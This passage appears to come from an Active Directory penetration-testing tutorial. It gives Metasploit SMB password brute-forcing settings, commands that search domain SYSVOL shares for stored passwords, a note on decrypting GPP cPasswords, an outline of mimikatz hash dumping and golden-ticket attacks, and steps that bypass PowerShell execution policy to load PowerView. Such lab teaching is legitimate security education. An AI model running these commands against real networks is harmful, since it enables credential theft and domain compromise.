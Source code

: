     use auxiliary/scanner/smb/smb_login
    set RHOSTS <DC-IP>
    set SMBDomain <domain>
    set SMBPass file:pwdlist.txt
    set USER_FILE users.txt
    set THREADS 5
    run

### Credentials in SYSVOL

Credentials are stored in `SYSVOL` network share folders, which are folders on domain controllers accessible and 
readable to all authenticated domain users. examples are:

* Group Policy Preferences (GPP) with cPassword attribute (MS14-025)
* Hard-coded credentials in various scripts and configuration files

From a domain joined Windows machine:

    findstr /s /n /i /p password \\\\<domain>\sysvol\<domain>\*

From Linux (Kali Linux):

    mount.cifs -o domain=<domain>,username=<username>,password=<password> //<DC-IP>/SYSVOL /tmp/mnt
    grep -ir 'password' /tmp/mnt

A cPassword attribute in the GPP XML files, for example, can be decrypted with `gpp-decrypt`.
And chances are the password will be reused somewhere.

## Post exploitation basics

![Bloodhound](/_static/images/bloodhound.png)

1. Enumeration with Powerview
2. Enumeration with Bloodhound
3. Dumping hashes with mimikatz
4. Golden ticket attacks with mimikatz
5. Maintaining Access

### Enumeration with Powerview

ssh into machine:

    ssh Administrator@<MACHINE-IP>
    Administrator@<MACHINE-IP>'s password: 

    Microsoft Windows [Version 10.0.17763.737]

Start Powershell: `-ep` bypasses the execution policy of powershell

    controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

Start PowerView:

    PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
    PS C:\Users\Administrator> cd .\Downloads
